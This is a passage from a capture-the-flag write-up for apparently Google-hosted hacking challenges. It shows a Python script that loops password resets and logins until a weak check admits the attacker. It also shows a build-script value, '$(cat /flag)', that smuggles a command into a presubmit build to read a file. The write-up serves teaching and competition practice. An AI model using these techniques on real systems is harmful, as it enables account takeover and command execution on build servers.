 ```python
import requests
import hashlib

login = 'http://vrp-website-web.h4ck.ctfcompetition.com/login'
reset = 'http://vrp-website-web.h4ck.ctfcompetition.com/reset-password'

data = {'username': 'tin', 'password': 'JqPzxTR4xZmQkqdR'}
rdata = {'username': 'tin'}
i = 1
while True:
    print(i)
    r = requests.post(login, data=data)
    if 'Incorrect credentials' not in r.text:
        print(r.text)
        with open('output.html', 'w') as f:
            f.write(r.text)
        print(r.headers)
        break
    r = requests.post(reset, data=rdata)
    i += 1
```

With this exploit script, we can reset the password until our password satisfies the check done by `safeEqual()`. We log in as tin and obtain the flag.

## EP004CH03

The repository has something called pre-submit checks that can be ran with `git push --push-option=presubmit`

```
remote: Starting presubmit check
remote: Cloning into 'tmprepo'...
remote: done.
remote: HEAD is now at 5d870ec test
remote: Building version v0.1.1
remote: ./build.sh: line 5: go: command not found
remote: Build server must be misconfigured again...
remote: Thank you for your interest, but we are no longer accepting proposals
```
Hmm, interesting, the version comes from the file `configure_flags.sh`
```bash
#!/usr/bin/env bash

# IMPORTANT: Make sure to bump this before pushing a new binary.
VERSION="v0.1.1"
COMMIT_HASH="$(git rev-parse --short HEAD)"
BUILD_TIMESTAMP=$(date '+%Y-%m-%dT%H:%M:%S')

LDFLAGS=(
  "-X 'main.Version=${VERSION}'"
  "-X 'main.CommitHash=${COMMIT_HASH}'"
  "-X 'main.BuildTime=${BUILD_TIMESTAMP}'"
)
```
If we change `VERSION` to `$(cat /flag)` and push, we obtain the flag.

